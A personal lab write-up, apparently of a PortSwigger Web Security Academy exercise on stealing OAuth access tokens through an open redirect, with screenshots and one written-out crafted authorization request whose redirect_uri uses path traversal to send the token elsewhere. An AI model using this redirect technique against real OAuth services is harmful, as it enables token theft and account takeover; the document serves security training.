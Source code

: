 Replace client id to logo
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/849bbef6-0c52-4902-a728-f77baed94d1a)


We got the secret access key

**Stealing OAuth access tokens via an open redirect**

From <https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect> 

Login to see behavior 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bd525a95-2f97-403c-9fe8-b15d0b10d58d)



Clicking on a post and clicking next shows that the  path parameter use a path
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f0ccebf4-a530-4082-b9dc-ab92d507f9b1)


Open redirect found when switching parameter to example.com
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f64cc734-3dce-42cd-b832-ece431994dd7)


Since we know that there is an open redirect we can go back to our login request and investigate the following response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c60d5e05-3baf-495b-8831-b2de31351525)


We can probably do a open redirect on this and intercept oauth 
Turn on intercept and login again until you get the above response
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cb4d548c-0f7a-40b9-93a7-250ff1fc5971)



Our request 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5bd0330e-eb76-4595-a619-28c76c61902a)


```
GET /auth?client_id=vxn9jlxsyf55ruju00ocn&redirect_uri=https://0a43008e041914c5811007e300e600c7.web-security-academy.net/oauth-callback/../next?path=example.com&response_type=token&nonce=-1747867307&scope=openid%20profile%20email HTTP/2
Host: oauth-0ae700ab04661448816b055402e800c5.oauth-server.net
Cookie: _session=JyYNg3oYi-9D3s4OKTPru; _session.legacy=JyYNg3oYi-9D3s4OKTPru
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0a43008e041914c5811007e300e600c7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
